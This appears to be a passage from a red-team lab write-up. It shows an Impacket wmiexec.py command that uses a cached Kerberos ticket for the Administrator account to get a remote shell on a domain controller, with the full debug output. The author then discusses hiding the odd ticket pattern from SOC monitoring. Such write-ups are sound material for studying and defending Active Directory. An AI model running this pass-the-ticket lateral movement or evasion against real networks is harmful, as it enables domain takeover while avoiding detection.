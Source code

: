 ```bash
KRB5CCNAME=$(pwd)/Administrator-CIFS.ccache wmiexec.py runeterra.local/Administrator@dc01 -k -no-pass -debug
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /home/eljay/.local/lib/python3.9/site-packages/impacket
[+] Using Kerberos Cache: /home/eljay/Administrator-CIFS.ccache
[+] Returning cached credential for CIFS/DC01@RUNETERRA.LOCAL
[+] Using TGS from cache
[*] SMBv3.0 dialect used
[+] Using Kerberos Cache: /home/eljay/Administrator-CIFS.ccache
[+] SPN HOST/DC01@RUNETERRA.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for CIFS/DC01@RUNETERRA.LOCAL
[+] Using TGS from cache
[+] Changing sname from CIFS/dc01@RUNETERRA.LOCAL to HOST/DC01@RUNETERRA.LOCAL and hoping for the best
[+] Target system is dc01 and isFQDN is True
[+] StringBinding: DC01[50601]
[+] StringBinding chosen: ncacn_ip_tcp:DC01[50601]
[+] Using Kerberos Cache: /home/eljay/Administrator-CIFS.ccache
[+] SPN HOST/DC01@RUNETERRA.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for CIFS/DC01@RUNETERRA.LOCAL
[+] Using TGS from cache
[+] Changing sname from CIFS/dc01@RUNETERRA.LOCAL to HOST/DC01@RUNETERRA.LOCAL and hoping for the best
[+] Using Kerberos Cache: /home/eljay/Administrator-CIFS.ccache
[+] SPN HOST/DC01@RUNETERRA.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for CIFS/DC01@RUNETERRA.LOCAL
[+] Using TGS from cache
[+] Changing sname from CIFS/dc01@RUNETERRA.LOCAL to HOST/DC01@RUNETERRA.LOCAL and hoping for the best
[+] Using Kerberos Cache: /home/eljay/Administrator-CIFS.ccache
[+] SPN HOST/DC01@RUNETERRA.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for CIFS/DC01@RUNETERRA.LOCAL
[+] Using TGS from cache
[+] Changing sname from CIFS/dc01@RUNETERRA.LOCAL to HOST/DC01@RUNETERRA.LOCAL and hoping for the best
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>exit
```


This is a bit better, but still weird from the logs. As it would show that the user requested a TGT then a CIFS TGS then authenticated with a HOST ticket, that just appeared out of nowhere. Will a SOC be monitoring this? maybe idk I’m not a SOC Analyst, but if they are lets get rid of that and do it properly.

